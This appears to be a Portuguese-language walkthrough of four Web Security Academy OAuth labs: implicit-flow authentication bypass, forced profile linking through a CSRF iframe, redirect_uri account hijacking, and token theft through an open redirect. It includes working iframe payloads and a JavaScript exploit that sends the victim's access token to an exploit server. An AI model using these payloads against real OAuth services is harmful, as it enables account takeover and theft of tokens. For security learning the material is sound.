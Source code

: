 # OAuth

<br>

## Laboratórios

**Authentication Bypass via OAuth Implicit Flow**

Intercepte todo o processo de autenticação por oAuth e observe que a request POST /authenticate contém um e-mail.

Troque-o para o e-mail da vítima e abra o resultado dessa request no navegador.

<br>
<br>

**Forced OAuth Profile Linking**

Analise o preceso de anexar mídia social e observe que a request com o código `oauth` não possui o parâmetro `state`.
```
/oauth-linking?code=f4vwrTOuewZl1c57xpceroEU5sItRCyy9mFjxCLhmk1
```

Começe um processo para linkar a social media, pegue o código `oauth` e drope a request para não utilizá-lo.

Crie um iframe para explorar isso com CSRF:
```
<iframe src="https://0abc003804e351ab8225664700de000f.web-security-academy.net/oauth-linking?code=f4vwrTOuewZl1c57xpceroEU5sItRCyy9mFjxCLhmk1"></iframe>
```

<br>
<br>

**OAuth Account Hijacking via redirect_uri**

Mude o redirect_uri para o servidor de exploit.

O CSRF será:
```
<iframe src="https://oauth-0a64002304635a12826490d402450089.oauth-server.net/auth?client_id=b6ajkjihwmqj6pxjov0z8&redirect_uri=https://exploit-0ad100fa040b5a2c82f7918c01ce0085.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

Utilize o token capturado para logar em:
```
https://your-lab-id.web-security-academy.net/oauth-callback?code=CODE
```

<br>
<br>

**Stealing OAuth Access Tokens via an Open Redirect**

Confirme que o parâmetro `redirect_uri` está vulnerável a path traversal:
```
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1
```

Encontre o Open Redirect em `GET /post/next?path=[...]` e use-o para redirecioanr o usuário para o servidor de exploit.
```
https://oauth-0a6e00b1037acb5488803fab02f200d8.oauth-server.net/auth?client_id=j03v9dtv262k7l0vkb1uu&redirect_uri=https://0a9600540369cbe58856410e00a700c7.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a44004e0379cbe5887d403b01db00d7.exploit-server.net/exploit&response_type=token&nonce=376828613&scope=openid%20profile%20email
```

O seguinte script vai vazar o access token no parâmetro da URL ao redirecionar usuarios para o servidor de exploit por um segundo:
```html
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

Agora precisamos criar um exploit que primeiro força a vítima a visitar a URL maliciosa e depois executar o script para roubar o access token:
```html
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

No Repeater, vá para a request GET /me e substitua o token no header Authorization: Bearer com o que você acabou de copiar para obter a chave de API da vítima.

